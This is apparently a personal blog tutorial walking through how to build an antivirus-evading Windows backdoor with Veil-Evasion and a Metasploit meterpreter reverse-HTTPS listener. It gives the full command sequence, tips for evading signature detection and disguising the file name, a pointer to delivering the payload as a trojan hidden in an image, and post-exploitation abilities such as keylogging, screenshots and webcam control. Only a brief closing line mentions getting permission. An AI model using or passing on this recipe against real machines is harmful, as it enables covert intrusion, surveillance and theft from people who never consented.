


Backdoor is a method of secretly gaining remote access to a computer by bypassing the normal authentication and firewall of the machine.
In this blog, I will be writing on How I created a backdoor for my Windows machine that even the antivirus could not detect. After creating the backdoor, I was able to do a lot of stuff on the Windows machine remotely like controlling the webcam, taking screenshots, using keyloggers etc. Let’s get started.
I created the executable (.exe file) on my Ubuntu machine. This .exe file, when run on a windows machine, created a backdoor to my Ubuntu machine from where I was able to control everything on the windows machine.

Let’s look at the steps that need to be followed.
As a first step, we need to install Veil. To install Veil you can go through this link https://www.javatpoint.com/installing-veil. It will also require installing the metasploitable-framework for ubuntu users (not required for Kali) which can be downloaded from here: https://www.darkoperator.com/installing-metasploit-in-ubunt.
Once installed, you can start by just typing veil . (or you can execute it by typing ./Veil.py in the directory veil is installed). The veil shell will open as shown below:

The veil framework has 2 tools (Evasion and Ordinance) which can be seen by typing list in the veil shell. We are interested in Evasion, so we type
> use 1
In backdoors a reverse connection is created, i.e. when the target person double clicks the script, their computer will start the initiation of the backdoor. So it becomes undetectable by many antivirus software because there is no external machine requesting to connect. I also used port 8080 which is a common port used to connect to websites, so nothing would seem suspicious to the antivirus softwares.
Type :
> list
I will use the 15th option (it uses go as the programming language for the meterpreter), so I type :
> use 15

We need to set an IP address to which the backdoor will try to connect. In my case, it is my current computer, so I will set LHOST to the IP of this ubuntu machine (the attacking machine). I will also change the LPORT to 8080. To get my IP I used ifconfig .
To set the LHOST and LPORT run :
> set LHOST <your_IP>
> set LPORT 8080
The way anti-virus programs work is that they have a very large database of file signatures that are flagged as suspicious. If your file’s signature is present in that database then your file will be flagged as suspicious by the anti-virus softwares. So it is a good practice to use the updated version of veil , since the updated version of veil will generate backdoors to bypass the antivirus softwares.
We should try to modify the file and make it more unique so that it bypasses the antivirus. There’s no real reason I have written the next 2 lines. It is just to make the signature a little different to bypass the antivirus.
Next type generate to generate the file. A prompt will appear to name the backdoor. I named it backdoor_8080 but you could name it somewhat different so that it does not cause suspicion.
A page will appear showing you the location of the saved executable.

Congrats!!! the backdoor is generated. It is stored at : var/lib/veil/output/compiled/backdoor_8080.exe
While creating the port I had used port 8080. So I will open the port on my ubuntu machine so that it is ready to connect when the target computer runs the executable. To do this I use the Metasploit framework. To run Metasploit console, run msfconsole
$ msfconsole
Note: The Veil-Evasion actually uses the Metasploit to generate the backdoor we created.
To open the port I used a module provided by Metasploit. It’s called multi/handler. So I run,
>use exploit/multi/handler
Type show options to see the options which are set
We will change these settings to suit our requirements. Run the following commands:
> set PAYLAOD windows/meterpreter/reverse_https
> set LHOST <IP>
> set LPORT 8080
> show options
Here is the IP used at the time of creating the backdoor
Type exploit to start listening on the port
> exploit
There are various social engineering ways to deliver the backdoor to a target computer. One such way is described in the blog below, where I have written how to create a trojan. Basically, it disguised the .exe file in an image in a .jpg file.
> use 1
Double-clicking on the backdoor_8080.exe file in the Windows machine executed my executable.
In the Metasploit where we were listening for connections in the ubuntu machine, we can see the metepreter shell has been opened.

The meterpreter shell will look like the one shown above. You can type help to get a long list of commands and their description as to what you can do.
A list of basic commands which you can run is
> sysinfo
> ipconfig
> pwd
> shell
Apart from these, you can also change user privileges, upload/download files, run this executable as a service, take screenshots, store keystrokes, and lots of other stuff.
While it seems that creating backdoors is something that is wrong and is done only by blackhat hackers, it is not entirely true. Some of the product-based companies also create backdoors into their products so that if their users lose access to their accounts or products the companies can help them gain access. While the above method is a good way to create backdoors, if you want to be on the ethical side of the line, do not use it to gain access to computers you don’t have permission to.
And that’s a wrap! Hi, I am Gourav Dhar, a software developer and I also write blogs on Backend Development and System Design. Subscribe to my Newsletter “The Geeky Minds” and learn something new every week - https://thegeekyminds.com/subscribe
Other Articles
What is an SSL/TLS Certificate and How do they Secure Your Website?
What are WebSockets? Everything you need to know about WebSockets!
How to create the perfect Pull Request?

I am Gourav Dhar, a 2019 graduate from IIT Roorkee where I pursued my bachelors in Electronics and Communication Engineering.
Know More